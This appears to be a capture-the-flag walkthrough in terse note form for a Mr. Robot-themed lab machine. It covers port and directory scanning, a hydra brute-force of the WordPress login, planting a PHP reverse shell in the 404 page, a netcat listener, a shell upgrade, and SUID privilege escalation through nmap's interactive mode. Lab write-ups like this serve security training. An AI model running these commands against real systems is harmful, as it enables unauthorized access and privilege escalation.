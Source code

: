 ### RECON 
###### Scanning 
 * `nmap -A X.X.X.X`
	 * 22: ssh
	 * 80: Apache
	 * 443: Apache
 
###### Locating directories
 * `gobuster dir -u X.X.X.X:3333 -w rockuou.txt`
	 * robots.txt → fsocity.dic, key-1-of-3.txt
	 * /wp-login
 
###### Go through the site
* /wp-login ~ exploit
	* find out the right username:
		* Elliot
		* Note: Wordpres login is case-INsensitive

### COMPROMISE
* ```hydra -l elliot -P fsocity.dic X.X.X.X http-post-form "/wp-login:log=^USER^&pwd=^PASS^wp-submit=Log+In:F=The password you entered for username elliot is incorrect"```
	* Elliot: ER28-0652
* modify 404 error page in order to embedd PHP reverse shell
* `nc -lvnp 4444`
* get proper shell: `python -c 'import pty;pty.spawn("/bin/bash")'`
* find interesting files
	* password hash: MD5 ~ crack → key-2-of-3.txt

### PRIVILEGE ESCALATION
* `find / -perm -u=s 2>/dev/null`
	* nmap, vim, find, bash, more, less, nano, cp
	* `nmap --interactive`
	* in /root → key-3-of-3.txt